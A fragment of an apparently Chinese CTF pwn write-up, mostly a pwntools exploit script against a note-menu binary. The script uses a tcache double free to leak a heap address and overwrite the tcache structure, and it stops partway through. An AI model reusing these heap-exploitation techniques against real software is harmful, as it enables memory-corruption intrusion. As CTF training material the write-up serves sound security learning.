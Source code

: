 ![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210320000232.png)

最后远程打的结果：

![](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/20210320000519.png)



#### 完整exp

```python
from pwn import *
context.update(arch='amd64', os='linux', endian='little')
io = process('./pwn')

def add_note(size:int):
    global io
    io.sendlineafter("Your Choice: ", '1')
    io.sendlineafter("size: ", str(size))
    io.recvuntil("Done!\n")

def show_note(idx:int):
    global io
    io.sendlineafter("Your Choice: ", '2')
    io.sendlineafter("id: ", str(idx))
    msg = io.recvline()
    leak_addr = msg[9:15]
    leak_addr = u64(leak_addr.ljust(8, b'\x00'))
    LOG_ADDR('leak_addr', leak_addr)
    io.recvuntil("Done!\n")
    return leak_addr

def edit_note(idx:int, content:bytes=b'a'):
    global io
    io.sendlineafter("Your Choice: ", '3')
    io.sendlineafter("id: ", str(idx))
    io.sendafter("content: ", content)
    io.recvuntil("Done!\n")

def del_note(idx:int):
    global io
    io.sendlineafter("Your Choice: ", '4')
    io.sendlineafter("id: ", str(idx))
    io.recvuntil("Done!\n")


# tcache bin dup
add_note(0x100) # 0
add_note(0x100) # 1
del_note(1)
del_note(1)

# get heap addr
heap_addr = show_note(1)
tcache_struct = heap_addr - 0x360
add_note(0x100) # 2
edit_note(2, p64(tcache_struct) * 2)

add_note(0x100) # 3
add_note(0x100) # 4 tcache struct 
LOG_ADDR('tcache_struct', tcache_struct)

edit_note(4, 0xb8 * b'\x00' + p64(0x66660000))

# 0x66660000 chunk
```